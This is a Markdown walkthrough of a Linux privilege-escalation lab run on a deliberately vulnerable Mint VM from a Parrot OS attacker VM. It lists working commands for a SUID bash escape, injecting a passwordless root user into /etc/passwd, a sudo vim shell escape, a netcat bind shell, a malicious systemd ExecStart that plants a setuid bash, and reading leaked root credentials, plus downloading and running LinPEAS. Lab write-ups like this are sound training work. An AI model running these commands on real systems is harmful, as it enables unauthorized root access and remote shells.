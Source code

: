 # 🐧 Linux Privilege Escalation Lab – Walkthrough Report

This walkthrough document captures each step taken during the hands-on privilege escalation lab using a vulnerable Linux Mint VM and a Parrot OS attacker VM. Screenshots were taken throughout the process to document key stages of exploitation.

---

## 🖥️ Environment Overview

* **Victim VM**: Linux Mint
* **Attacker VM**: Parrot OS
* **Network Setup**: Host-Only Adapter (VMware Workstation Pro)

---

## 🔧 Initial Setup

1. Verified IP connectivity between VMs using `ip a` and `ping`
2. Started SSH on the victim machine: `sudo systemctl start ssh`
3. Logged into the victim machine from attacker using:

   ```bash
   ssh intern@<victim-ip>
   # password: password
   ```

✅ Screenshot: Successful SSH login and `whoami` as `intern`

---

## 🔰 Basic Privilege Escalation Techniques

### 1. 📍 SUID Binary Exploitation

* Enumerated SUID binaries:

  ```bash
  find / -perm -4000 2>/dev/null
  ```
* Found `/usr/local/bin/suidbash`
* Exploited it:

  ```bash
  /usr/local/bin/suidbash -p
  whoami
  ```

✅ Screenshot: Root shell via SUID

---

### 2. 📍 Writable `/etc/passwd`

* Confirmed writable permissions:

  ```bash
  ls -l /etc/passwd
  ```
* Appended fake root user:

  ```bash
  echo 'hacked::0:0::/root:/bin/bash' >> /etc/passwd
  su hacked
  ```

✅ Screenshot: Root shell via passwd injection

---

### 3. 📍 Sudo Misconfiguration (`vim`)

* Listed allowed sudo commands:

  ```bash
  sudo -l
  ```
* Found `NOPASSWD: /usr/bin/vim`
* Gained root shell via:

  ```bash
  sudo vim -c ':!bash'
  whoami
  ```

✅ Screenshot: Root shell via vim escape

---

## 🔥 Advanced Privilege Escalation Techniques

### 4. 📍 Netcat `setcap` Bind Shell

* Verified capability:

  ```bash
  getcap -r / 2>/dev/null
  ```
* On victim:

  ```bash
  /usr/bin/nc.traditional -lp 80 -e /bin/bash
  ```
* On attacker:

  ```bash
  nc <victim-ip> 80
  whoami
  ```

✅ Screenshot: Remote root shell via netcat

---

### 5. 📍 Writable systemd service

* Edited vulnerable service:

  ```bash
  nano /etc/systemd/system/vuln.service
  ```
* Malicious `ExecStart`:

  ```ini
  ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rooted && chmod +s /tmp/rooted'
  ```
* Reloaded and restarted:

  ```bash
  sudo systemctl daemon-reexec
  sudo systemctl daemon-reload
  sudo systemctl restart vuln
  /tmp/rooted -p
  ```

✅ Screenshot: Rooted binary + root shell

---

### 6. 📍 Leaked Config Credentials

* Read secret environment file:

  ```bash
  cat /etc/secret.env
  ```
* Used credentials to `su root`:

  ```bash
  su root
  # password: SuperSecret123
  ```

✅ Screenshot: `su` to root via leaked secret

---

## 🧪 Optional Recon: LinPEAS

* Ran enumeration script:

  ```bash
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```

✅ Screenshot: LinPEAS output highlighting exploitable paths

---

## 🧼 Cleanup Commands (Post-Lab)

```bash
rm /usr/local/bin/suidbash
chmod 644 /etc/passwd
setcap -r /usr/bin/nc.traditional
rm /etc/secret.env
rm /etc/systemd/system/vuln.service
systemctl daemon-reload
```

---
